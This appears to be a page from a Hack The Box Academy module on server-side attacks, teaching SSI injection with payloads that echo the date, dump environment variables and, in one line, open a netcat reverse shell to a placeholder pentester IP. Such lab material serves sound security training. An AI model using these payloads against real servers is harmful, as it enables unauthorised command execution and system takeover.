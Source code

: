 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/145/section/1303
// Platform Version: V1
// Module ID: 145
// Module Name: Server-side Attacks
// Module Difficulty: Medium
// Section ID: 1303
// Section Title: SSI Injection Exploitation Example
// Page Title: Hack The Box - Academy
// Page Number: 11
-->

# SSI Injection Exploitation Example

**Module Name:** Server-side Attacks **Page Number:** 11

#### 

#### SERVER-SIDE ATTACKS

# SSI Injection Exploitation Example

![https://academy.hackthebox.com/storage/modules/145/img/SSI_1.png](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.png)

``` html
1. <!--#echo var="DATE_LOCAL" -->
2. <!--#printenv -->
```

#### Date

![https://academy.hackthebox.com/storage/modules/145/img/SSI_1.5.png](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.5.png)

![https://academy.hackthebox.com/storage/modules/145/img/SSI_2.png](https://academy.hackthebox.com/storage/modules/145/img/SSI_2.png)

#### All Variables

![https://academy.hackthebox.com/storage/modules/145/img/SSI_3.png](https://academy.hackthebox.com/storage/modules/145/img/SSI_3.png)

![https://academy.hackthebox.com/storage/modules/145/img/SSI_4.png](https://academy.hackthebox.com/storage/modules/145/img/SSI_4.png)

#### Reverse Shell

``` html
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

# 

# 

#### Questions

####